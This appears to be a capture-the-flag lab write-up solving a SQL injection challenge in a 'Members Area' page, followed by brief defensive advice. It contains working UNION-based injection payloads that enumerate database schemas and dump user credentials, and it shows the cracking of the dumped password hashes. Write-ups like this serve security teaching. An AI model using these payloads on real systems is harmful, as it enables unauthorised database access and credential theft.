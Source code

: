 # SQL Injection in Members Area

### Tools
SQL injections list from:https://github.com/payloadbox/sql-injection-payload-list

SQL UNION ATACK guide: https://charlesreid1.com/wiki/SQL_Injection/UNION_Attack
Since we are not allowed to use automated tools like sqlmap.

### How to solve it

1. Firt run multiple sql injetion untill something happens using : 
```
 1 UNION SELECT NULL,NULL
```
2. Later on we try multiple commands and we findout some stuff, member 5 has a Flag inside it, but we couldn't found any password or user info .
```
 5 UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--
```
3. With this command we get a list with all schemas and tables and their columns searching for some words we found password and user columns on db_default .
```
 5 union select table_name, table_schema from information_schema.columns 
 5 UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns-- 
```
4. Now we try to access users table to get users info and we get this  Decrypt this password -> then lower all the char. Sh256 on it and it's good !: 5ff9d0165b4f92b14994e5c685cdce28 cracking it we get :		FortyTwo. and lowering it to fortytwo and using Sh256 we get 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
 5 union SELECT town, countersign FROM Member_Sql_Injection.users
```
5. Now we try to access users table to get db_default info and we found this : root : 3bf1114a986ba87ed28fc1b5884fc2f8 cracking it we get :shadow.
```
 5 union SELECT username,password FROM Member_Brute_Force.db_default
```
### How to protect
 - use ORM system
 - Input Validation like restricting input size, and if the data is a name it doesnt have to contain numbers  and if the data is a number we could block string from it.
 - Sanitize user input by checking some chars in the input and exchanging it so the SQL doesn't interpeter these.
### How to solve it
